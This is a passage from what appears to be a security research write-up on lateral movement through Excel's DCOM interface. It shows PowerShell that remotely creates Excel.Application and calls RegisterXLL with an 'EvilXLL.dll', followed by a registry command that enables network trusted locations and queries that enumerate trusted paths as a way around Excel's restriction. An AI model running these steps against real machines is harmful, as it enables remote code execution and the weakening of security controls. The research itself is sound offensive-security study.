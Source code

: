 _The above code has been taken from CsDCOM_ (comments added).
 
For completeness, you may want to check out the main project file, [here](https://github.com/rasta-mouse/MiscTools/blob/master/CsDCOM/Program.cs)

However, the tools presented lacks support for methods 4.2 to 7.1. 

#### RegisterXLL

RegisterXLL was certainly the most interesting functions to leverage, as following the research of Philip Tsukerman, the following payload should have worked:

```powershell
PS> pwd

Path
----
C:\Windows\TEMP
PS> ls .\EvilXLL.dll


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       23/06/2020     13:42          10240 EvilXLL.dll
PS> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "$ComputerName"))
PS> $excel.RegisterXLL("EvilXLL.dll")
-2146826259
```

Nothing happened, the negative value is relatively near to Int32.MinValue (-2147483648), but it's unsure what that means, but the result is clear, something is failing.

Digging a bit further, it was pretty easy to discover that Excel doesn't allow to register XLL from an untrusted path. The trusted path is usually the root directory of Excel, under Program Files, so inaccessible to normal users. 

##### Bypass Path Restrictions

The question at this point was: is that possible to bypass this restriction and load an arbitrary dll?

It is known that being an admin user, it may be possible to change/add registry keys, thus allowing the attacker to enable custom locations, or to enable network shares, via 
```
reg add HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations /v AllowsNetworkLocations /t REG_DWORD /d 1
``` 
but what if that is not possible?

To accomplish this objective, the first step was to discover which paths were marked as trusted:

```powershell
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations"

HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location0
HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location1
HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location2
HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location3
HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location4
HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location5

PS >for ($i=0;$i -lt 5;$i++){ reg query "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations\Location$i" | Select-String Path }

    Path    REG_SZ    C:\Program Files\Microsoft Office\Root\Office16\XLSTART\
```
